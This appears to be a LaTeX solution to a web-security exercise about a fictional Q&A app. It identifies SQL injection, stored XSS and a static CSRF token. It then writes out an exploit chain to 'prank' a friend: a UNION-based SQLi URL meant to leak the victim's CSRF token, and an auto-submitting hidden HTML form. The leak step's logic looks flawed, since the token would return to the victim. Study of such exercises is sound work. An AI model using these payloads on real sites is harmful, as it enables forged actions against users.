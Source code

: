 \documentclass{article}
\begin{document}
\subsubsection*{Solution}
\textbf{Step 1: Identifying Vulnerabilities}
\begin{itemize}
    \item[\textbf{1.}] \textbf{SQL Injection (SQLi)}: Occurs at line 37 in the \texttt{/list\_questions} endpoint: \texttt{query += " AND question LIKE '\%" + request.args['search'] + "\%';"}. User input is blindly concatenated into the SQL statement, allowing attackers to manipulate the logic.
    \item[\textbf{2.}] \textbf{Cross-Site Scripting (XSS)}: Occurs at line 29 in the \texttt{/get\_question} endpoint. While the \texttt{answer} is sanitized, the \texttt{question} is rendered directly into the HTML without sanitization, allowing Stored XSS.
    \item[\textbf{3.}] \textbf{CSRF Token Flaw}: While a CSRF token exists, it is static per user (tied to their UUID). If an attacker obtains a user's static token, they can forge requests indefinitely.

\end{itemize}
\textbf{Step 2: Crafting the Exploit Chain (The Prank)}
\begin{itemize}
    \item \textbf{Goal}: Force a friend's browser to submit a POST request to add the question "I am dumb".
    \item \textbf{Step 2a (Leak the Token)}: We must first obtain the friend's static CSRF token. We use the SQLi vulnerability in \texttt{/list\_questions}. We craft a URL: \texttt{danGPT.com/list\_questions?search=nothing\%' UNION SELECT user\_csrf\_token, username FROM USERS WHERE username = 'friend\_username'; --}. When the friend clicks this, the database will return their secret CSRF token instead of questions.
    \item \textbf{Step 2b (The CSRF Attack)}: We create a malicious HTML page hosting a hidden form targeting the \texttt{/question} POST endpoint.
\end{itemize}
\texttt{}`html
<form id="prank" method="POST" action="dangpt.com/question">
<input type="hidden" name="question" value="I am dumb">
<input type="hidden" name="csrf\_token" value="[LEAKED\_TOKEN]">
</form>
<script>document.getElementById('prank').submit();</script>
\texttt{}`
\begin{itemize}
    \item \textbf{Step 2c (Execution)}: We send this malicious page to the friend. When they open it, their browser automatically submits the form using their legitimate session cookies and the leaked CSRF token, successfully adding the embarrassing question.
\end{itemize}
\end{document}
